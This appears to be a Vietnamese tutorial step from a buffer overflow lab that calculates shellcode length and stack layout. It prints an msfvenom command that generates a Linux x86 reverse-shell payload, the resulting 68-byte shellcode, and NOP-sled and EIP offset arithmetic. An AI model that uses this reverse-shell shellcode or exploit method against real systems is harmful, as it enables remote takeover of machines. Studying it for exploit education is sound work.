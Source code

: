 # Determine the Length for Shellcode
---
## Shellcode - Length
Sử dụng **msfvenom**  để tìm hiểu xem shellcode mà chúng ta sẽ chèn sẽ lớn đến mức nào và để làm được điều này.
```shell
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00"
"\x01\x68\x02\x00\x7a\x69\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

Payload sẽ vào khoảng 68 bytes. Chúng ta nên lấy rộng hơn để tránh trường hợp xấu hơn.

Thông thường, có thể hữu ích khi chèn một số lệnh không thao tác (NOPS) trước khi shellcode của chúng ta bắt đầu để nó có thể được thực thi một cách rõ ràng.

```shell
Offset = Buffer + EIP = 1036 + 4 = 1040 bytes
NOPS = "\x90" * 100
Shellcode = "\x44" * 150

Stack = EIP (4) + Shellcode (150) + NOPS (100) + Buffer(1040 - 100 - 150 - 4) 
```
```
+--+--------+------+-----------+---------+-------+
|  | Buffer | NOPS | ShellCode | EIP     | Stack |
+==+========+======+===========+=========+=======+
|  |        |      |    EBP    |         |       |
+--+--------+------+-----------+---------+-------+
|  |         1036 Bytes        | 4 Bytes |       |
+--+---------------------------+---------+-------+
```

**MAXSHELLCODE = 250**